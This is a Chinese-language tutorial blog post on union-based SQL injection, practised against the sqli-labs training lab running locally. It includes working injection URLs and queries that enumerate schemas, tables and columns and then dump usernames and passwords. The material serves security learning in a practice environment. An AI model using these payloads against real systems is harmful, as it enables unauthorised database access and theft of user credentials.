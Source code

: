 ```yaml
---
layout: post
title: 1.2.1-SQL注入-SQL注入语法类型-union联合查询注入
category: 
  - web安全
tags: 
  - sql注入
abbrlink: 2839042794
date: 2018-06-16 00:00:00
description: more
---
```


## union查询注入

### union介绍

SQL UNION 操作符  
用于合并两个或多个SELECT语句的结果集。  
注意：  
SELECT语句必须拥有**相同数量**的列。  
列也必须拥有**相似的数据类型**。  
每条SELECT语句中列的**顺序必须相同**。  

默认情况，UNION操作符选取不同的值，允许重复的值，使用UNION ALL。  

	SELECT column_name(s) FROM table_name1
	UNION
	SELECT column_name(s) FROM table_name2

	SELECT column_name(s) FROM table_name1
	UNION ALL
	SELECT column_name(s) FROM table_name2

### union查询注入方法

#### UNION 注入应用场景  

前提：  
1.只要UNION连接的几个查询的字段数一样且列的数据类型转换没有问题，就可以查询出结果；
2.注入点页面有回显；

注意点：  
1.只有最后一个SELECT子句允许有ORDER BY；
2.只有最后一个SELECT子句允许有LIMIT；

	mysql> select * from users order by id union select 1,2,3;
	错误 orderby 要在最后一个子句后面

	mysql> select * from users limit 0,1 union select;
	错误 limit 要在最后一个子句后面

#### UNION注入过程-根据Sqli-labs Less1-4学习

tips：order by 猜出来的列数超过数据库表中的列数，报错并不能返回数据  

1. order by 确定列数
2. 观察页面返回，选取可以显示数据的位置，进行下一步的注入
3. 读库信息
4. 读表信息 
5. 读字段
6. 读数据


---



	docker run -dt --name sqli -p 90:80 --rm acgpiano/sqli-labs 
	docker ps -a
	docker exec -it <id> /bin/bash
	mysql -uroot -p
	show databases;
	use security;

	1. select * from users order by 4; // order by 判断多少列 从1～3 报错了确定有4列

	2. select * from users where id=1 union select 1,2,3;
	select * from users where id=-1 union select 1,(select version()),3;

	3. select * from users where id=-1 union select 1,2,(select group_concat(schema_name) from information_schema.schemata);

	4. select * from users where id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security'); // 当前库可以换成database() ''不识别可以换成十六进制0x

	5. select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users');

	6. select * from users where id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users);


浏览器访问：  
http://127.0.0.1:90/Less-1/  

	http://127.0.0.1:90/Less-1/?id=1'
	http://127.0.0.1:90/Less-1/?id=1' order by 1 --+ // 二分法试
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,3 --+
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(version())--+ // user() database()

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x7e,password) from users)--+


















